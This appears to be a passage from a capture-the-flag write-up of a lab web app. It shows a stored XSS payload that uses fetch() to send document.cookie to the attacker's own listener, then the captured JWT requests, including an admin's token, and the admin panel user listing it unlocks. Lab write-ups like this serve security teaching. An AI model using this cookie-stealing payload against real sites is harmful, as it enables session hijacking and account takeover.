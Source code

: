 So a very likely vector of attack will be to forge a admin cookie or steal one so lets look around and see if we can find a way to steal it. We are able to create listings and can test for XSS with as the title and description
```
<script>alert(1)</script>test
```

Sure enough both fields are vulnerable to XSS and there is an interesting option to report the listing to admins so lets create a listing with the following payload as the title
```
<script>fetch("http://[ip:port]/"+document.cookie)</script>test
```

We have netcat listening on the port we designated in our payload and upon creation receive the following
```
GET /token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoidGVzdCIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjIwODg2NjA2fQ.ZIvJn_yrah2bHwAT5E3vnDYAKENuxyj72a57pSgXDCo HTTP/1.1
Host: 10.13.1.12:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.160.210:32768/item/5
Origin: http://10.10.160.210:32768
Connection: keep-alive
```

Sure enough we got our cookie so lets report the listing and see if we receive another cookie from an admin
```
GET /token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjA4ODgzOTR9.K8vij_h027zriEATHvIe6jYSvi04CI6uCxm84C_mRo0 HTTP/1.1
Host: 10.13.1.12:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
Accept: */*
Origin: http://localhost:3000
Referer: http://localhost:3000/item/5
Accept-Encoding: gzip, deflate
Accept-Language: en-US

{"alg":"HS256","typ":"JWT"}{"userId":2,"username":"michael","admin":true,"iat":1620888394}+Ëâ..6ï:â..Ç¼.º..¯.N.#«.Æo8
dhÔ
```

Sure enough we got the cookie of an admin user so lets change our cookie, and we now have access to the /admin panel where we get our first flag and the following user listing
```
User system
ID: 1
Is administrator: false
User michael
ID: 2
Is administrator: true
User jake
ID: 3
Is administrator: true
User test
ID: 4
Is administrator: false
```
